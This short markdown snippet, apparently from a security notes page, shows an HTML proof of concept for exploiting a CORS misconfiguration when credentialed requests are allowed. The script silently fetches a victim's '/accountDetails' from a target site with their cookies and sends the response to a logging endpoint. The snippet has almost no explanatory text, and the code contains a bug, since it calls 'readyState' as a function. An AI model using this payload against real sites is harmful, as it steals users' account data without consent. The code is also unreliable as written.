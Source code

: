 cors when Access-control-allow-authentication is provided:
```html
<html>
<body>
<script>
var xhr = new XMLHttpRequest();
var url = "https://vulnerable-website.com";
xhr.onreadystatechange = function() {
    if(xhr.readyState() == XMLHttpRequest.DONE) {
        fetch("/log?key=" + xhr.responseText)
    }
}
xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null)
</script>
</body>
</html>
```

![alt text](./images/image.png)